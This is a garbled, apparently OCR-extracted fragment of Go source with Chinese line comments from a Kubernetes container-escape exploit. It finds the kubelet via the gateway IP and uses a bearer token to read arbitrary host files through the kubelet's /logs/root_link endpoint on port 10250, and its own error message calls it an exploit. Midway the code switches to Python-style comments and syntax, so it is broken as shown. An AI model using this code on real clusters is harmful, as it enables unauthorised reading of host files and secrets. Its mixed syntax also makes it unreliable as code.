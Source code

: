 ```
r, err := regexp.Compile(pattern)
// 检查是否有错误发生
checkError(err)
// 在字符串中查找所有匹配给定模式的子字符串
match := r.FindAllStringSubmatch(string(out), -1)

// 获取匹配结果中的第一个子匹配的值
getway := match[0][1]
// 将十六进制字符串解码为字节数组
a, _ := hex.DecodeString(getway)
// 格式化字节数组中的值为 IP 地址格式
return fmt.Sprintf("%v.%v.%v.%v", a[3], a[2], a[1], a[0])
}

// 向指定路径的文件中写入内容
func writeToScanFile(i_DirPath string, i_ContentToWrite string) {
// 打开文件，如果不存在则创建，以追加模式写入，权限为 0644
f, err := os.OpenFile(i_DirPath, os.O_APPEND|os.O_WRONLY|os.O_CREATE, 0644)
// 检查是否有错误发生
checkError(err)
// 延迟关闭文件
defer f.Close()

// 向文件中写入指定内容
_, err = f.WriteString(i_ContentToWrite)
// 检查是否有错误发生
checkError(err)
}

// 读取指定路径的资源
func read(i_Path string) string {
// 创建一个新的 HTTP 请求
req, _ := http.NewRequest("GET", fmt.Sprintf("https://%s:10250/logs/root_link%s", g_KubeletEndPoint, i_Path), nil)
# 在请求头中添加授权信息
req.Header.Add("Authorization", g_Bearer)
# 发送请求并获取响应
resp, err := g_Client.Do(req)
# 检查是否有错误发生
checkError(err)

# 保存响应状态码
tempStatus := resp.StatusCode
g_LastStatusRespond = tempStatus

# 如果响应状态码不是200也不是404，则输出错误信息并终止程序
if resp.StatusCode != 200 && resp.StatusCode != 404:
    log.Fatalf("[!] Cannot run exploit, no permissions to access logs on the kubelet\n")

# 如果响应状态码是404，则返回路径不存在的错误信息
if resp.StatusCode == 404:
    return fmt.Sprintf("[!] The path %s does not exists in the host\n", i_Path)

# 读取响应体的内容
body, err := ioutil.ReadAll(resp.Body)
# 检查是否有错误发生
checkError(err)

# 关闭响应体
defer resp.Body.Close()
# 返回响应体的内容
return string(body)
// 读取目录并过滤，返回原始内容和过滤后的内容列表
```